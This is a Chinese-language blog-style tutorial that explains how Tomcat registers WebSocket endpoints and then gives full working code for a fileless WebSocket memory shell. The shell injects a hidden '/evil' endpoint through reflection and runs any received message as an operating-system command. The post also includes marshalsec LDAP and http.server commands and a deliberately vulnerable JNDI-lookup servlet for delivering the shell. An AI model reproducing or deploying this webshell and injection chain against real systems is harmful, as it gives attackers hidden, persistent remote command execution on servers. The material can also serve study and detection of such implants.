

# 0x01 WebSocket

WebSocket是一种全双工通信协议，即客户端可以向服务端发送请求，服务端也可以主动向客户端推送数据。这样的特点，使得它在一些实时性要求比较高的场景效果斐然（比如微信朋友圈实时通知、在线协同编辑等）

建立WebSocket连接的服务器端和客户端，两端对称，抽象成API，就是一个个**Endpoint**。服务器端的叫 **ServerEndpoint**，客户端的叫 **ClientEndpoint**。客户端向服务端发送WebSocket握手请求，建立连接后就创建一个**ServerEndpoint对象**。

# 0x02 Implementation By Tomcat

两种实现方式：

* `@ServerEndpoint`注解方式
* 继承抽象类`Endpoint`

```java
import javax.websocket.*;
import javax.websocket.server.ServerEndpoint;

@ServerEndpoint(value="/websoket")  //value指定一个URI路径标识一个Endpoint
public class WebSocket{
    private Session session;

    @OnOpen  //建立连接时触发
    public void start(Session session) {
        this.session = session;
        this.session.getAsyncRemote().sendText("websocket start");
    }

    @OnClose  //关闭连接时触发
    public void end() {
        System.out.println("websocket close");
    }

    @OnMessage  //接收到消息时触发
    public void incoming(String message) {
        this.session.getAsyncRemote().sendText("websocket received: "+message);
    }

    @OnError  //发生异常时触发
    public void onError(Throwable t) {
        System.out.println("websocket error");
    }
}
```

若使用继承抽象类Endpoint的方式，需要自己实现**MessageHandler**（处理消息）和 **ServerApplicationConfig**（处理URL映射）

Tomcat通过 **org.apache.tomcat.websocket.server.WsSci** 专门对 websocket 进行初始化以及加载，该类实现了接口**javax.servlet.ServletContainerInitializer**。然后再扫描`classpath`下带有`@ServerEndpoint`注解的类进行`addEndpoint`加入websocket服务。

`org.apache.tomcat.websocket.server.WsSci#onStartup`


扫描处理三种类，还定义了三个Set来存放扫描到的这三种类

* ServerEndpoint注解类
* ServerApplicationConfig实现类
* Endpoint子类

`init`创建`WsServerContainer`，往`ServletContext`添加WebSocket相关Listener


WsServerContainer的构造函数往`ServletContext`添加WsFilter来处理websocket请求

当服务器接收到来自客户端的请求时，首先WsFilter会判断该请求是否是一个`WebSocket Upgrade`请

求（含Upgrade: websocket头字段）。若是则根据请求路径查找对应的Endpoint处理类。


随后扫描到我们自定义的`ServerEndpoint`，将其添加到**scannedEndpointClazzes**、**scannedPojoEndpoints**


又定义了两个集合**filteredEndpointConfigs**、**filteredPojoEndpoints**

通过**addEndpoint**添加Endpoint到`WsServerContainer`容器中


接着定义了一个`ServerEndpointConfig`，获取URL路径（即`@ServerEndpoint`的value字段）



构建完`ServerEndpointConfig`，再次调用addEndpoint


用`PojoMethodMapping`获取定义的`OnOpen`等方法


`UriTemplate`对URL进行重复检查，将path和`ServerEndpointConfig`放入`ExactPathMatch`


# 0x03 Inject WebSocket Endpoint

* 获取StandardContext
* 获取WsServerContainer
* 创建恶意ServerEndpointConfig
* 调用addEndpoint

```java
import org.apache.catalina.WebResourceRoot;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.tomcat.websocket.server.WsServerContainer;

import javax.naming.Context;
import javax.naming.Name;
import javax.websocket.*;
import javax.websocket.server.ServerContainer;
import javax.websocket.server.ServerEndpoint;
import javax.websocket.server.ServerEndpointConfig;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Hashtable;

@ServerEndpoint("/evil")
public class MySocket implements javax.naming.spi.ObjectFactory{
    static{
        try {
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            Class clazz = Class.forName("org.apache.catalina.loader.WebappClassLoaderBase");
            Field field = clazz.getDeclaredField("resources");
            field.setAccessible(true);
            StandardContext standardContext =  (StandardContext) ((WebResourceRoot) field.get(webappClassLoaderBase)).getContext();
            ServerEndpointConfig build = ServerEndpointConfig.Builder.create(MySocket.class, "/evil").build();
            WsServerContainer container = (WsServerContainer) standardContext.getServletContext().getAttribute(ServerContainer.class.getName());
            System.out.println("Inject WebSocket Success!");
            try {
                container.addEndpoint(build);
            } catch (DeploymentException e) {
                throw new RuntimeException(e);
            }
        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        } catch (ClassNotFoundException e) {
            throw new RuntimeException(e);
        }
    }

    private Session session;

    @OnOpen
    public void onOpen(Session session, EndpointConfig config) {
        this.session = session;
    }

    @OnMessage
    public void onMessage(String message) {
        try {
            boolean iswin = System.getProperty("os.name").toLowerCase().startsWith("windows");
            Process exec;
            if (iswin) {
                exec = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/c", message});
            } else {
                exec = Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", message});
            }
            InputStream ips = exec.getInputStream();
            StringBuilder sb = new StringBuilder();
            int i;
            while((i = ips.read()) != -1) {
                sb.append((char)i);
            }
            ips.close();
            exec.waitFor();
            session.getBasicRemote().sendText(sb.toString());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

可以通过JNDI注入、反序列化等将内存马打进去

下面用JNDI注入做演示：

* 编译上面的`MySocket.java`
* `MySocket.class`目录下起web服务`python -m http.server 9999`
* marshalsec开启ldap服务`java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:9999/#MySocket 8099`
* 搭建JNDI注入环境

```java
import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

public class Test extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String url = req.getParameter("url");
        try {
            InitialContext initialContext = new InitialContext();
            initialContext.lookup(url);
        } catch (NamingException e) {
            throw new RuntimeException(e);
        }
    }
}
```

```xml
<servlet>
    <servlet-name>test</servlet-name>
    <servlet-class>Test</servlet-class>
</servlet>
<servlet-mapping>
    <servlet-name>test</servlet-name>
    <url-pattern>/test</url-pattern>
</servlet-mapping>
```


参考：

[websocket内存马 | Y0ng的博客 (yongsheng.site)](https://www.yongsheng.site/2022/08/05/websocket/)